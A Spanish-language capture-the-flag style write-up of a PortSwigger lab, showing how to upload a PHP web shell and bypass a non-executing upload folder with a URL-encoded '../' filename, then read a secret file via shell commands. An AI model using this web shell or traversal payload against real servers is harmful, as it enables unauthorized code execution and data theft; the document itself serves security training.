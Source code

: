 ```yaml
---
title: "Web shell upload via path traversal"
description: "Laboratorio de Portswigger sobre File Upload"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Web shell upload via path traversal
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, el servidor está configurado para `prevenir` la `ejecución` de `archivos` proporcionados por el usuario, pero esta restricción puede ser eludida explotando un `path traversal`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-3/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-3/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-3/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-3/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Lab-3/image_5.png)

Si accedemos a `https://0af3002604e2eaaa825ad87900e80024.web-security-academy.net/files/avatars/shell.php` vemos que `no` se está `interpretando`

![](/assets/img/File-Upload-Lab-3/image_6.png)

Al parecer los archivos `php` de este directorio `no` se `interpretan`, lo que debemos hacer es `subir` el `archivo` nuevamente y `capturar` la `petición` con `Burpsuite`. Una vez hecho esto vamos a efectuar un path traversal `filename="%2e%2e%2fshell.php"`, este payload es `../shell.php` pero tenemos que `url encodearlo` porque nos elimina el `../`

```
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fshell.php"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Si accedemos a `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=whoami` veremos que hemos logrado un `RCE (Remote Code Execution)` debido a que el `path traversal` ha sido exitoso y el directorio `/files` no tenía `ninguna restricción` a la hora de `interpretar` archivo `php`

![](/assets/img/File-Upload-Lab-3/image_7.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Lab-3/image_8.png)

Obtenemos el contenido del archivo secret `https://0a4700a403b7d67580dde9b000e30030.web-security-academy.net/files/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-3/image_9.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Lab-3/image_10.png)
